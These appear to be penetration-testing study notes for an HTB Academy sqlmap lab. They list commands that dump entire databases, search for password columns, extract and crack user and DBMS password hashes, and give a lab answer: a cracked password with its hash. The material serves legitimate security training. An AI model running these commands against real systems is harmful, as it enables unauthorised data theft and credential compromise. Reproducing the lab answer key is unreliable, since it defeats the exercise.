 **All-in-One Enumeration:**
```bash
# Enumerate everything automatically (long-running!)
sqlmap -u "http://www.example.com/?id=1" --all --batch

# This will automatically:
1. Enumerate all databases
2. Enumerate all tables in each database  
3. Enumerate all columns in each table
4. Extract all data from all tables
5. Crack any found password hashes
6. Attempt file operations if possible
7. Save everything to output files
```

**Caution with --all:**
- **Very time-consuming** - can run for hours
- **Generates massive output** - requires manual analysis
- **May trigger detection** - extensive database queries
- **Use selectively** - better to target specific data

##### HTB Academy Examples

**Case #1 - Column Search:**
```bash
# Find column containing "style" in name
sqlmap -u "http://target/case1.php?id=1" --search -C style --batch

# Expected result: Column name containing "style"
```

**Case #1 - Password Extraction:**
```bash
# Extract and crack Kimberly's password
sqlmap -u "http://target/case1.php?id=1" --dump -T users --batch

# Look for Kimberly user in results:
| 6  | Kimberly Wright   | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      |
# Answer: Enizoom1609
```

##### Quick Reference: Advanced Enumeration
```bash
# Schema analysis
sqlmap -u "URL" --schema                         # Complete database structure

# Intelligent search
sqlmap -u "URL" --search -T user                 # Find user tables
sqlmap -u "URL" --search -C pass                 # Find password columns

# Password operations  
sqlmap -u "URL" --dump -T users --batch          # Extract + crack user passwords
sqlmap -u "URL" --passwords --batch              # Extract + crack DB user passwords

# Nuclear option
sqlmap -u "URL" --all --batch                    # Extract everything (use carefully!)
```
